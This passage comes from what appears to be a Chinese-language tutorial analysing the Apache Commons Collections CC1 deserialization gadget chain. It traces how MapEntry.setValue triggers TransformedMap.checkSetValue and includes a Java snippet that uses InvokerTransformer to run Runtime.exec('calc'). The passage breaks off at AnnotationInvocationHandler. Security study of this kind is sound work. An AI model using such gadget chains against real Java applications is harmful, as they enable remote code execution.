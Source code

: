 ```java
static class MapEntry extends AbstractMapEntryDecorator {//AbstractInputCheckedMapDecorator的副类MapEntry
    
    private final AbstractInputCheckedMapDecorator parent;

    protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
        super(entry);
        this.parent = parent;
    }

    public Object setValue(Object value) {
        value = parent.checkSetValue(value);
        return entry.setValue(value);
    }
}
```

而MapEntry继承了AbstractMapEntryDecorator类，AbstractMapEntryDecorator类中继承了Map.Entry接口，可进行Map遍历

<img src="JAVA%E5%AE%89%E5%85%A8CC1%E9%93%BE/1708592608901.png" alt="1708592608901" style="zoom: 80%;" />

因此我们通过Map遍历时即可调用TransformedMap的父类AbstractInputCheckedMapDecorator中的setValue方法来触发TransformedMap中的checkSetValue方法。

```java
Runtime r = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
HashMap<Object,Object> map = new HashMap<>();
map.put("key","value");
Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);
for(Map.Entry entry:transformedmap.entrySet()){
    entry.setValue(r);//相当于InvokerTransformer.transform(r)
}
```

执行上述代码即可弹出计算器，然而，溯源还未结束，我们接着找调用了setValue方法的类。

#### 2.3 起点--AnnotationInvocationHandler类

经查找可得：

<img src="JAVA%E5%AE%89%E5%85%A8CC1%E9%93%BE/1708594017228.png" alt="1708594017228" style="zoom: 80%;" />

该类中调用setValue方法的代码如下：

